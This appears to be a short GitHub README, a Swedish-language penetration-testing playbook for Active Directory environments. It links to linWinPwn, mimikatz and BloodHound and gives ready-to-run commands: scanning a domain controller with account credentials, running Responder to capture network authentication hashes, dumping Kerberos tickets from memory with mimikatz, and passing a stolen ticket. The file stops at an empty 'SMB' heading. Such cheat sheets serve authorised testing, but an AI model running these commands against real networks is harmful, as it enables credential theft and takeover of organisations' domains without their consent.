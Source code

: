 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Bloodhound
https://github.com/BloodHoundAD/BloodHound

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Responder
```bash
responder -I eth0 -v
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
## SMB VEV
